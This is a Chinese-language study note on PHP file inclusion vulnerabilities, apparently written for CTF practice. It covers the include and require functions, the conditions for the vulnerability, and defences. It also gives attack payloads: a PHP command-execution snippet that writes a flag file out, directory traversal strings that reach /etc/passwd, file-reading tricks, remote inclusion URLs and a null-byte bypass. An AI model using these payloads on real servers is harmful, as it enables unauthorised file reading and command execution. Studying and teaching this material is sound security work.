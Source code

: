 ## PHP文件包含方法（函数）
```
// include();       文件包含失败后，报警告错误，后面的代码会执行
include " ";
// include_once();  包含文件时，先做一个检测，如果前面的文件有包含就不再执行


include一个思路是包含php代码。include的包含方式是先检查一遍所要包含的文件是否存在，如果存在则包含，不存在则报错。
如果包含的是php代码，include会先执行一遍php代码，再将未经url编码的报错信息写入日志文件。
我们可以包含执行命令的php代码，如<? `cat /flag>xx/public/flag.txt`;?>将命令执行结果输出到可访问的文件目录下，如public目录，
但是重定向输出执行结果到指定文件需要public目录的绝对路径。
获取绝对路径的思路是利用/proc/进程PID/cmdline找到存在start.php的命令，因为cmdline包含了运行start.php时文件的绝对路径。



// require();       文件包含失败后，报致命错误，后面的代码不会执行
// require_once();  包含文件时，先做一个检测，如果前面的文件有包含就不再执行
fopen()
readfile()
highlight_file("config.php");        //文件内容包含高亮。

highlight_file(session_id(session_start()));
此时cookie中，PHPSESSID=flag.php

highlight_file(next(array_reverse(scandir(pos(localeconv())))));
读同目录下文件
```


## 什么是文件包含

就是把多个文件 用各种方法 包含在一个文件里。

## []()什么是文件包含漏洞

开发人员开启了allow_url_include=on可以进行url文件包含，且包含函数的参数可控，
黑客可以配合文件上传，恶意日志，包含有php代码的任何文件，通过文件包含漏洞从而去运行恶意文件。
也可能读服务器上面的文件内容。

## []()文件包含漏洞条件

* 外部可控
* 要有条件 （allow_url_include=on，默认allow_url_include=off）

## []()防御方法

* 设置白名单
* 过滤危险字符
* 关闭危险配置
* 限制文件包含的路径，比如只能包含某个目录内的
* 严格判断包含中的的参数是否外部可控，尽量不要使用动态包含

## []()PHP文件包含类型

1. 包含本地文件
   - 相对路径的写法
    ```
    ?file=b.php
    ?file=../../b.php  
    ?file=../../../../../../../etc/passwd  
    ?file= hint.php?/../../b.php  
    此方法只适合在Linux环境下使用，hint.php?/会被当作目录

    ```
    - 绝对路径的写法，file协议
    ```
   ?file=file:///D:/WWW/1_students/202111/20211224/b.php
    ```
    - php的伪协议url
    ```

    ```

2. 包含远程文件(必须服务器开启了 远程包含的功能)
    PHP的配置文件：php.ini
    ```
    allow_url_include=On
    ```
    远程包含的写法
    ```
    ?file=http://localhost/1_students/202111/20211224/b.php

ip转数字
http://1.92.88.247/1
http://22829303/1
    ```

3. 文件包含绕过
目录穿越
```
../
/../
/.%00.%2F
包含 %00，这在文件路径中是不合法的。在大多数操作系统中，
空字符（null byte）用于表示字符串的结束，
如果这个字符串被错误地解释为文件路径，它实际上可能不会形成一个有效的路径。
```

^
4. 文件包含利用：
    日志包含
    php session包含


